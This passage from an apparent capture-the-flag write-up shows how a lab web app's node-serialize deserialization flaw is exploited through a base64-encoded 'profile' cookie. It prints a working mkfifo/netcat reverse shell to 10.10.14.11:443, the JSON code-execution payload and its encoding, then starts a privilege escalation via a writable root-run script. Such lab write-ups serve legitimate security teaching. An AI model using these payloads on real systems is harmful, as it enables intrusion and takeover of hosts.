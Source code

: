 The next step is to get a shell on the target host. A useful command for reverse shell payloads is `nc`. We can check if the host has the `nc` command available by executing the command `which nc && ping -c 10 10.10.14.11'`. If netcat exists, the first part of the command (`which nc`) evaluates to `True` and the host pings us 10 times. Otherwise, if the first part evaluates to `False`, we won't receive any ICMP packets.

We place this command in our JSON object and base64 encode the JSON object, as explained earlier. Next, we send a new request to the web application where the value of the `profile` cookie is the base64 encoded string we just generated. Shortly after sending the request, we can see ICMP echo requests from the target host in Wireshark and the target host thus has `nc` installed. As `nc` is installed, we can use the reverse shell payload below to get a shell on the target host.

{% highlight plain linenos %}
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f
{% endhighlight %}

We place the reverse shell payload into our JSON object and base64 encode it as shown below.

{% highlight none linenos %}
kali@kali:~$ @@JSON='{"evil":"_$$ND_FUNC$$_function (){require('"'"'child_process'"'"').exec('"'"'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f'"'"'); }()"}'@@
kali@kali:~$ @@echo $JSON | base64 -w0@@
eyJldmlsIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uICgpe3JlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfHNoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMTEgNDQzID4vdG1wL2YnKTsgfSgpIn0K
{% endhighlight %}

![sunShell](/assets/{{ imgDir }}/sunShell.png)

Next, we start a netcat listener by executing `nc -lvnp 443`. Finally, we send a request to the web application where the `profile` cookie is set to the base64 encoded JSON object. Once the request has been sent, our netcat listener receives a connection and we have a shell as the `sun` user on the target host! The next step is to perfrom a privilege escalation from the `sun` user to the `root` user. 

# Privilege Escalation
We start by listing the files in the home directory of the `sun` user, as shown below. The `output.txt` file and `node_modules` directory seem interesting since these are owned by the `root` user. By executing `cat output.txt` we get the content "Script is running...". In addition, it was edited quite recently, indicating that a script might have executed recently and written the file. This is interesting to us as attackers since the owner of the `output.txt` file is the `root` user, meaning that the script would be executing with `root` privileges.

![sunHome](/assets/{{ imgDir }}/sunHome.png)

After searching through the directories in the `sun` user's home directory, we find the files `user.txt` and `script.py` in the `/home/sun/Documents` folder. The `user.txt` file contains the user flag and the `script.py` file contains the line `print "Script is running..."`. As the output of the script would be the content of the `output.txt` file, we can strongly suspect that this is the script which created the `output.txt` file. We also have the right to overwrite the `script.py` file since it is owned by the `sun` user, as can be seen below. 

![sunHomeDoc](/assets/{{ imgDir }}/sunHomeDoc.png)
